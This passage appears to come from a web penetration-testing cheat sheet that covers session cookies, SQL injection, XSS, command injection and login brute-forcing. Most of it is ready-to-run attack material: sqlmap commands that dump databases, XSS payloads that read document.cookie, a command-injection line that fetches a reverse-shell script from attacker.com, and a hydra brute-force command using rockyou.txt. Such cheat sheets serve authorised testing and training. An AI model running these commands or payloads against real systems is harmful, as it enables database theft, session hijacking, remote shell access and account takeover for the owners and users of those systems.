 > *Check for insecure direct object references (IDOR), CSRF, broken access control, and token leakage.*
{: .prompt-warning }

### Analyzing Cookies and Session Management
```bash
curl -I -X GET https://target.com/login | grep "Set-Cookie"
```

Check for:
- Cookie flags (`HttpOnly`, `Secure`, `SameSite`)
- Session fixation or weak session management

---

## 3. Input-Based Attacks

### SQL Injection
```sql
' OR 1=1-- -
```
```bash
sqlmap -u "https://target.com/product?id=3" --dbs --level=5 --risk=3
sqlmap -u "https://target.com/index.php?user=admin&pass=' OR 1=1 --" --dump
```

> **Advanced SQLi Commands**:
```bash
sqlmap -u "https://target.com/item?id=1" --union-cols=10 --union-char=1 --batch --dbs
```

### XSS (Reflected / Stored)
```html
"><script>alert('XSS')</script>
```

> **Advanced XSS**: Test for stored XSS in profile, comment, and feedback forms.
```html
<script>alert(document.cookie)</script>
```

### Command Injection
```bash
127.0.0.1; whoami
curl -X GET "https://target.com/?id=$(curl attacker.com/reverse-shell.sh)"
```

---

## 4. Authentication Bypass & Bruteforce

### Brute POST Logins
```bash
hydra -l admin -P rockyou.txt target.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid login"
```
